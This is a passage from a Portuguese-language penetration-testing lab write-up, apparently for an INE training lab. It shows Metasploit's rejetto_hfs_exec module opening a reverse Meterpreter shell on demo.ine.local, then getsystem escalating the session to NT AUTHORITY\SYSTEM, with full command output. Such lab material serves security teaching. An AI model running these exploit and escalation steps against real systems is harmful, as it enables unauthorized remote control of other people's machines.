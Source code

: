 ```bash

Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Vamos configurar a opção `RHOSTS` com o endereço IP da aplicação:

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
```

Agora vamos executar o módulo de exploração com o comando `run`:

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.4.3:4444 
[*] Using URL: http://0.0.0.0:8080/r92pkMb9
[*] Local IP: http://10.10.4.3:8080/r92pkMb9
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /r92pkMb9
[*] Sending stage (175174 bytes) to 10.4.27.45
[*] Meterpreter session 1 opened (10.10.4.3:4444 -> 10.4.27.45:49864 ) at 2023-02-14 09:03:04 +0530
[*] Server stopped. 
```

Para descobrir o usuário que está executando a aplicação, vamos utilizar o comando `getuid`:

```bash
meterpreter > getuid 
Server username: ATTACKDEFENSE\Administrator
```

<div class="page"/>

## **<a id="4"> • Obtain SYSTEM privileges on the machine.</a>**

Para obter privilégios de `SYSTEM` na máquina, vamos utilizar o comando `getsystem` do `Meterpreter`, esse comando usa métodos predefinidos para obter o privilégio mais alto na máquina comprometida. 

```bash
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

`Meterpreter` nos retorna que o usuário `ATTACKDEFENSE\Administrator` foi elevado para `NT AUTHORITY\SYSTEM`.
